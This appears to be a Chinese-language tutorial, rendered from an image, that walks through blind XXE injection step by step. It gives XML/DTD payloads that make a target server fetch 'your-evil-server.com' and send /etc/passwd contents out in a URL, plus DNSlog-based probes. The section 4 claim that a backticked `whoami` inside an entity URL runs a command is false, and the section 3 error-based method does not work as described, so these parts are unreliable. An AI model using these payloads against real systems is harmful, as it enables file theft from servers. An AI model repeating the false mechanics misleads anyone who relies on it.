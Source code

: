 ### XXE 盲注思路

**1. 基础的带外请求（OOB）**

这是 XXE 盲注最基本的利用方式。我们首先要确认服务器是否存在 XXE 漏洞，即使没有回显

- **攻击步骤：**

  1. **准备攻击服务器：** 搭建一个 Web 服务器（例如使用 Python 的 `SimpleHTTPServer`）或利用**DNSlog**平台

  2. **构造恶意 XML 实体：**

     ```xml
     <?xml version="1.0"?>
     <!DOCTYPE a [
     <!ENTITY % p1 SYSTEM "http://your-evil-server.com/test">
     %p1;
     ]>
     <test></test>
     ```

  3. **发送请求：** 将上述 XML 作为请求体发送到目标服务器

  4. **确认存在漏洞：** 如果你的服务器收到了来自目标 IP 的 `GET /test` 请求，就说明服务器存在 XXE 漏洞

**2. 利用带外请求获取文件内容**

确认漏洞存在后，下一步就是尝试读取服务器上的文件

- **攻击步骤：**

  1. **构造恶意 DTD 文件：** 在你的攻击服务器上，创建一个 DTD 文件（例如 `evil.dtd`），内容如下：

     ```xml
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % send SYSTEM "http://your-evil-server.com/?data=%file;">
     ```

  2. **构造主 XML 请求：**

     ```xml
     <?xml version="1.0"?>
     <!DOCTYPE a [
     <!ENTITY % p1 SYSTEM "http://your-evil-server.com/evil.dtd">
     %p1;
     %send;
     ]>
     <test></test>
     ```

  3. **发送请求：**

     - 当服务器解析主 XML 文件时，它会首先请求 `evil.dtd`
     - 解析 `evil.dtd` 后，它会读取 `file:///etc/passwd` 的内容，并将其作为 `%file` 实体的值
     - 最后，它会请求 `%send` 实体，将文件内容作为 `GET` 参数发送到你的服务器

  4. **接收数据：** 你会在你的服务器日志中看到类似 `GET /?data=root:x:0:0:root:/root:/bin/bash...` 的请求，从而获取 `/etc/passwd` 的内容

**3. 利用参数实体获取错误信息**

当无法通过 HTTP GET 请求直接传输数据时，可以利用 XML 解析器的错误信息来带出数据。这种方法通常用于绕过 WAF 或一些过滤

- **攻击步骤：**

  1. **构造恶意 DTD 文件：** 在你的服务器上创建 DTD 文件，内容如下：

     ```xml
     <!ENTITY % p1 "
     <!ENTITY &#x25; oob SYSTEM 'http://your-evil-server.com/?data=%file;'>
     ">
     ```

  2. **构造主 XML 请求：**

     ```xml
     <?xml version="1.0"?>
     <!DOCTYPE root [
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % dtd SYSTEM "http://your-evil-server.com/evil.dtd">
     %dtd;
     %p1;
     %oob;
     ]>
     <root></root>
     ```

  3. **发送请求：**

     - 服务器解析主 XML 时，会首先加载 `evil.dtd`
     - 然后，它会尝试解析 `%p1`，其中包含 `%oob` 的定义
     - 由于 `%oob` 实体引用了 `%file`，而 `%file` 是一个文件内容，当 XML 解析器尝试将其解析为 URL 时，会因为语法错误而失败，并抛出错误信息

  - **这种方法的关键在于，某些 XML 解析器会把完整的错误信息（包括外部实体的内容）带回给客户端，或者将其写入服务器日志。** 虽然不能直接从响应中看到，但可以利用这个特性进行注入

**4. 利用 DNSlog 获取数据**

当目标服务器无法出网，或者 HTTP 协议被严格过滤时，DNSlog 是一个非常好的选择

- **攻击步骤：**

  1. **准备 DNSlog 平台：** 获取一个 DNSlog 域名，例如 `hacker.dnslog.cn`

  2. **构造 XML 请求：**

     ```xml
     <?xml version="1.0"?>
     <!DOCTYPE a [
     <!ENTITY % p1 SYSTEM "http://`whoami`.hacker.dnslog.cn">
     %p1;
     ]>
     <test></test>
     ```

  3. **发送请求：**

     - 服务器解析 XML 时，会尝试解析 `whoami` 命令的输出，并将其作为子域名，向 `hacker.dnslog.cn` 发起 DNS 查询

  4. **查看结果：** 你会在 DNSlog 平台的日志中看到类似 `www-data.hacker.dnslog.cn` 的查询记录，从而获取到 `whoami` 命令的输出